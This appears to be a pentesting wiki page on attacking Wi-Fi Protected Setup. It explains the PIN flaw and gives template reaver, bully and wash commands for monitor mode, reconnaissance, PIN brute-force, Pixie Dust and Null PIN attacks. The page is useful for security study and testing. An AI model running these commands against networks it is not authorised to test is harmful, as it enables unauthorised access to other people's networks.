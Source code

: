 # WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

There are three main methods for setting up a connection using WPS :

* **Push Button Configuration (PBC) :** Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.

* **PIN-based Configuration :** Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.

* **Near-field communication Configuration :** In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

## Attacks

Here are some known attacks on Wi-Fi Protected Setup (WPS) :

* **PIN Brute-Force Attack :** Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.

* **Pixie Dust Attack :** This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.

* **PIN Revelation Attack :** Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.

* **Access Point Enumeration Attack :** Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within your wireless device's range, switch the mode to "Monitor."

If you have [Aircrack-ng](https://www.aircrack-ng.org/) installed, you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges

airmon-ng #to list all your network interfaces.
arimon-ng check kill #to stop interfering network processes.
airmon-ng start wlan0 #to start your network interface in monitor mode, in this case we are using wlan0.
```

If you are not using Aircrack-ng, you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges

iwconfig #to view your wireless interfaces and check their current mode.
ifconfig wlan0 down #to disable the network interface you wish to change, in this case it is wlan0.
iwconfig wlan0 mode monitor #to change the mode of wlan0 to "monitor".
ifconfig wlan0 up #to re-enable your network interface.
```

### Recon

Wash is a tool used to detect access points with WPS (Wi-Fi Protected Setup) enabled. It can perform a survey either directly from a live interface or by scanning a list of pcap files. As an auxiliary utility, Wash is specifically crafted to showcase WPS-enabled Access Points along with their primary characteristics. This tool is bundled within the Reaver package.
```bash
wash -i [INTERFACE]
```

### Brute-Force Attack

In December 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that renders PIN-based WPS vulnerable to brute-force attacks on WPS-enabled Wi-Fi networks. A successful exploitation of this flaw grants unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Today, two primary tools are available for executing this operation: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) and [Bully](https://github.com/aanarchyy/bully). 
Reaver is crafted to be a robust and effective attack method targeting WPS. It has undergone testing against a diverse range of access points and WPS implementations. On the other hand, Bully represents a fresh implementation of the WPS brute force attack, coded in C. It offers several advantages over the original Reaver code, including fewer dependencies, enhanced memory and CPU performance, accurate handling of endianness, and a more resilient set of options.

```bash
# /!\ Beware: change placeholder values INTERFACE, BSSID-MAC, CHANNEL
# Verbosity of output (for reaver) : -v -vv -vvv
# Verbosity of output (for bully) : -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels : -5

# With reaver :
reaver -i [INTERFACE] -b [BSSID] -c [CHANNEL] -vv

# With bully :
bully [INTERFACE] -b [BSSID] -c [CHANNEL] -S -F -B -v 3
```

### Pixie Dust attack

During the summer of 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he named the Pixie Dust attack. This exploit specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a deficiency in randomization during the generation of the E-S1 and E-S2 "secret" nonces. With knowledge of these nonces, the PIN can be retrieved in a matter of minutes. To streamline the process, a tool called pixiewps was developed, and a new version of Reaver was created to automate the attack.

Check this [list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.


```bash
# /!\ Beware: change placeholder values INTERFACE, BSSID-MAC, CHANNEL
# Verbosity of output (for reaver) : -v -vv -vvv
# Verbosity of output (for bully) : -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels : -5

# With reaver :
reaver -i [INTERFACE] -b [BSSID] -c [CHANNEL] -K 1 -N -vv

# With bully :
bully  [INTERFACE] -b [BSSID] -d -v 3
```

### Null Pin attack

Certain poorly implemented systems permitted the use of a Null PIN for connections, which is highly unusual. Reaver has the capability to test for this, whereas Bully lacks this specific functionality.

```bash
# /!\ Beware: change placeholder values INTERFACE, BSSID-MAC, CHANNEL
# Verbosity of output (for reaver) : -v -vv -vvv

reaver -i [INTERFACE] -b [BSSID] -c [CHANNEL] -f -N -g 1 -vv -p ''
```

## All-in-one tools

All the mentioned WPS attacks can be effortlessly executed using airgeddon or wifite2.

Airgeddon : https://github.com/v1s1t0r1sh3r3/airgeddon

Wifite2 : https://github.com/derv82/wifite2

## Resources

Reaver : https://github.com/t6x/reaver-wps-fork-t6x

Bully : https://github.com/aanarchyy/bully

Airgeddon : https://github.com/v1s1t0r1sh3r3/airgeddon

Wifite2 : https://github.com/derv82/wifite2

Aircrack-ng : https://www.aircrack-ng.org

Vulnerable router models : https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y
